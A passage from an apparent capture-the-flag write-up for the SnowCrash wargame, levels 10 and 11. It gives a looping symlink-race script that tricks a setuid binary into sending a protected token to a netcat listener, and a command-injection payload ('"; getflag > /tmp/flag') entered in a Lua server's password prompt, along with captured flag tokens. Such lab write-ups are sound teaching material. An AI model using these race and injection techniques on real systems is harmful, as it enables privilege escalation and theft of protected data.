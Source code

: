 Nope, still unable to execute my flag and send it to a server

To open a port in your machine:
```bash
nc -lk 6969
```

let's get the executable to my host with scp

```bash
scp -P 4242 level10@192.168.56.101:/tmp/flag /mnt/nfs/homes/emaugale/Desktop
```

So must find a way to make your file accessible to the server.
When we use ltrace, the executable will first try to access our file and then read the file's content. -> Do a /tmp/flag file with nothing on it when accessed; we can delete it and recreate one, which will be a symlink to the token file, launch our server, and print the result

```bash
    while true;
        do
        touch /tmp/link
        rm -f /tmp/link
        ln -s /home/user/level10/token /tmp/link
        rm -f /tmp/link
        done
```

```bash
    while true;
    do
    /home/user/level10/level10 /tmp/link 192.168.56.101 2> /dev/null
    done
...
bash /tmp/script1.sh & bash /tmp/script2.sh
```

Check flag.Here is your token : feulo4b72j7edeahuete3no7c
## Level 11

In this exercise, we have a lua script. This script is a sort of a server that will listen to a port and compare the content you give it with an expected hash.

As level07 user, you can use the getflag function to get the flag, but this time by adding it to the password Password:

```bash
Password: "; getflag > /tmp/flag"
```

```bash
level11@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```


## Level 12
